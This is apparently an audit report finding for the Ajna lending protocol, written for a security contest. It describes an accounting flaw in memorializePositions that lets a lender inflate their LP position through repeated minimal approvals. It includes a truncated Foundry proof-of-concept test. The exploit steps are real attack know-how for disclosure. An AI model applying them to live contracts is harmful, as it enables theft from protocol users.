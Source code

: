 ## Proof of Concept

The described vulnerability occurs when a lender specifies allowances for the PositionManager contract that are less than their lp balance for each respective index through the [increaseLPAllowance function](https://github.com/code-423n4/2023-05-ajna/blob/276942bc2f97488d07b887c8edceaaab7a5c3964/ajna-core/src/base/Pool.sol#L455) and then invokes the [memorializePositions function](https://github.com/code-423n4/2023-05-ajna/blob/276942bc2f97488d07b887c8edceaaab7a5c3964/ajna-core/src/PositionManager.sol#L170). The result of this is that the user's lp balance tracked by the [PositionManager's state](https://github.com/code-423n4/2023-05-ajna/blob/276942bc2f97488d07b887c8edceaaab7a5c3964/ajna-core/src/PositionManager.sol#L202) will increment by the position's balance while the lp balance tracked by the [Pool's state](https://github.com/code-423n4/2023-05-ajna/blob/276942bc2f97488d07b887c8edceaaab7a5c3964/ajna-core/src/libraries/external/LPActions.sol#L260) will only decrement by the specified allowance. A user can repeat this process through multiple iterations until their respective lp balances with the Pool contract are 0 which will exponentially increase the value of their position. Please see the following test case for a POC simulating the effect of this described vulnerability on a user's position:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.14;

import "forge-std/console.sol";

import {Base64} from "@base64-sol/base64.sol";

import "tests/forge/unit/PositionManager.t.sol";

/**
*  @title  Proof of Concept
*  @notice Simulates the effect of the described vulnerability where a user
*          can exponentially increase the value of their position by:
*          1- only approving the `PositionManager` for a min amount of their position
*          2- invoking 'memorializePositions' on their position's respective NFT
*          3- repeating these steps until their respective position's Pool lp balance is 0
*  @dev    This test case can be implemented and run from the ajna-core/tests/forge directory
*/
contract POC is PositionManagerERC20PoolHelperContract {
   function testMemorializePositionsWithMinApproval() external {
       uint256 intialLPBalance;
       uint256 finalLPBalance;

       address testsAddress = makeAddr("testsAddress");
       uint256 mintAmount = 10000 * 1e18;

       _mintQuoteAndApproveManagerTokens(testsAddress, mintAmount);

       // Call pool contract directly to add quote tokens
       uint256[] memory indexes = new uint256[](3);
       indexes[0] = 2550;
       indexes[1] = 2551;
       indexes[2] = 2552;

       _addInitialLiquidity({
           from: testsAddress,
           amount: 3_000 * 1e18,
           index: indexes[0]
       });
       _addInitialLiquidity({
           from: testsAddress,
           amount: 3_000 * 1e18,
           index: indexes[1]
       });
       _addInitialLiquidity({
           from: testsAddress,
```
